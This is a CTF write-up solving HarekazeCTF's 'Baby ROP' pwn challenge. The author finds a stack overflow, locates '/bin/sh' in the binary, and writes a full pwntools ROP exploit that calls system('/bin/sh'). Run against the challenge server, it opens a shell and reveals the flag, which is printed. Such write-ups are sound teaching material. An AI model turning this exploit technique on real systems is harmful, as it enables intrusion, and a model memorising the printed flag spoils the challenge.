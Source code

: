 # Baby ROP

The program is running on Ubuntu 16.04.

nc problem.harekaze.com 20001

[babyrop](babyrop)

Run the program:
```bash
# ./babyrop 
What's your name? hi
Welcome to the Pwn World, hi!
```

Run `strings`:
```bash
# strings babyrop 
/lib64/ld-linux-x86-64.so.2
libc.so.6
__isoc99_scanf
printf
system
__libc_start_main
__gmon_start__
GLIBC_2.7
GLIBC_2.2.5
UH-P
AWAVA
AUATL
[]A\A]A^A_
echo -n "What's your name? "
Welcome to the Pwn World, %s!
;*3$"
/bin/sh
GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.10) 5.4.0 20160609
...
...
...
```

Looks like it contains string `/bin/sh` in the program

The title also hints it needs to do Return Oriented Programming (ROP)

Basically is like buffer overflow:
```
Buffer Overflow:
[ buffer ][ address to execute ]

Buffer Overflow with ROP:
[ buffer ][ address to execute ][ another address to execute ][ address again ][...]
```

First, lets find the buffer size using pwntools:
```python
from pwn import *
p = process('./babyrop')
p.sendline('a'*30)
print p.recv()
```
Output:
```
[x] Starting local process './babyrop'
[+] Starting local process './babyrop': pid 2921
What's your name? Welcome to the Pwn World, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!

[*] Stopped process './babyrop' (pid 2921)
```

Stopped means we hit the EIP (Instruction Pointer)

We can check with `dmesg` command:
```bash
# dmesg | grep baby
[ 1595.158999] babyrop[2921]: segfault at 616161616161 ip 0000616161616161 sp 00007ffc2efe3c80 error 14 in libc-2.28.so[7f02d848d000+22000]
```
As seen above, we overwritten 6 bytes of EIP `0000616161616161`

So our padding need to +2 and -8 to prepare the payload:
```python
from pwn import *
elf = ELF('./babyrop')
main = elf.symbols['main'] # Get the address of main
p = elf.process()
p.sendline('a'*24 + p64(main)) # send the payload to execute main
p.interactive()
```
Output:
```bash
python solve.py 
[*] '/root/Downloads/harekaze/rop/babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/root/Downloads/harekaze/rop/babyrop': pid 3781
[*] Switching to interactive mode
What's your name? Welcome to the Pwn World, aaaaaaaaaaaaaaaaaaaaaaaa�@!
What's your name? [*] Got EOF while reading in interactive
$ 
```
But I don't know why get EOF

Anyway we execute the main function successfully

Next step is to find where is the `/bin/sh` is located in the program

Using `next(elf.search('/bin/sh'))` in pwntools to find the address 

Output:

```
[*] '/root/Downloads/harekaze/rop/babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
0x601048
```
Looks like its located at `0x601048`

## Final step

Using the ROP library, we can easily build the payload to execute `system` with the string `/bin/sh`:
```python
from pwn import *
context.clear(arch='amd64') # 64 bit
elf = ELF('./babyrop')
sh = next(elf.search('/bin/sh'))
r = ROP(elf)
r.system(sh) # running system("/bin/sh")
p = elf.process()
p.sendline('a'*24 + str(r)) # send the payload
p.interactive()
```
Output:
```bash
# python solve.py 
[*] '/root/Downloads/harekaze/rop/babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded cached gadgets for './babyrop'
[+] Starting local process '/root/Downloads/harekaze/rop/babyrop': pid 4707
[*] Switching to interactive mode
What's your name? Welcome to the Pwn World, aaaaaaaaaaaaaaaaaaaaaaaa\x83\x06@!
$ ls
babyrop  core  solve.py
```

Yay! Looks like we succeed! 

Change the process to netcat:
```python
# p = elf.process()
p = remote('problem.harekaze.com',20001)
```
Output:
```bash
# python solve.py 
[*] '/root/Downloads/harekaze/rop/babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded cached gadgets for './babyrop'
[+] Opening connection to problem.harekaze.com on port 20001: Done
[*] Switching to interactive mode
What's your name? $ cd /home/babyrop
$ ls
babyrop
flag
$ cat flag
HarekazeCTF{r3turn_0r13nt3d_pr0gr4mm1ng_i5_3ss3nt141_70_pwn}
```

## Flag
> HarekazeCTF{r3turn_0r13nt3d_pr0gr4mm1ng_i5_3ss3nt141_70_pwn}